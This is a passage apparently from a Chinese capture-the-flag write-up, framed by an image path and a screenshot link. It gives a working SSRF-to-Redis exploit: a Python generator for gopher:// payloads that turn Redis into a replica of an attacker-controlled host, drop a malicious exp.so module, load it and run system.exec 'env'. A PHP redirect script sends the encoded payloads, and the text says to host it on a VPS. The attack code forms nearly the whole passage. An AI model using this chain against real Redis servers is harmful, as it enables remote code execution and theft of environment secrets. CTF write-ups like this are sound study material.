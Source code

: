 ```python
    for i in payload.split('\n'):
        arg_num = '*' + str(len(i.split(' ')))
        redis_payload += arg_num + '\r\n'
        for j in i.split(' '):
            arg_len = '$' + str(len(j))
            redis_payload += arg_len + '\r\n'
            redis_payload += j + '\r\n'

    gopher_payload = 'gopher://db:6379/_' + urlencode(redis_payload)
    return gopher_payload

payload1 = '''
slaveof host.docker.internal 21000
config set dir /tmp
config set dbfilename exp.so
quit
'''

payload2 = '''slaveof no one
module load /tmp/exp.so
system.exec 'env'
quit
'''

print(gen_payload(payload1))
print(gen_payload(payload2))
```

分两次打

```php
<?php

// step 1
header('Location: gopher://db:6379/_%2A%31%0D%0A%24%30%0D%0A%0D%0A%2A%33%0D%0A%24%37%0D%0A%73%6C%61%76%65%6F%66%0D%0A%24%32%30%0D%0A%68%6F%73%74%2E%64%6F%63%6B%65%72%2E%69%6E%74%65%72%6E%61%6C%0D%0A%24%35%0D%0A%32%31%30%30%30%0D%0A%2A%34%0D%0A%24%36%0D%0A%63%6F%6E%66%69%67%0D%0A%24%33%0D%0A%73%65%74%0D%0A%24%33%0D%0A%64%69%72%0D%0A%24%34%0D%0A%2F%74%6D%70%0D%0A%2A%34%0D%0A%24%36%0D%0A%63%6F%6E%66%69%67%0D%0A%24%33%0D%0A%73%65%74%0D%0A%24%31%30%0D%0A%64%62%66%69%6C%65%6E%61%6D%65%0D%0A%24%36%0D%0A%65%78%70%2E%73%6F%0D%0A%2A%31%0D%0A%24%34%0D%0A%71%75%69%74%0D%0A%2A%31%0D%0A%24%30%0D%0A%0D%0A');

// step 2
// header('Location: gopher://db:6379/_%2A%33%0D%0A%24%37%0D%0A%73%6C%61%76%65%6F%66%0D%0A%24%32%0D%0A%6E%6F%0D%0A%24%33%0D%0A%6F%6E%65%0D%0A%2A%33%0D%0A%24%36%0D%0A%6D%6F%64%75%6C%65%0D%0A%24%34%0D%0A%6C%6F%61%64%0D%0A%24%31%31%0D%0A%2F%74%6D%70%2F%65%78%70%2E%73%6F%0D%0A%2A%32%0D%0A%24%31%31%0D%0A%73%79%73%74%65%6D%2E%65%78%65%63%0D%0A%24%35%0D%0A%27%65%6E%76%27%0D%0A%2A%31%0D%0A%24%34%0D%0A%71%75%69%74%0D%0A%2A%31%0D%0A%24%30%0D%0A%0D%0A');
```

在 vps 上启动一个 php 服务器, 例如 `php -S 0.0.0.0:65000`, 然后让题目去访问这个 php 文件

![image-20230930163412501](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202311021207478.png)
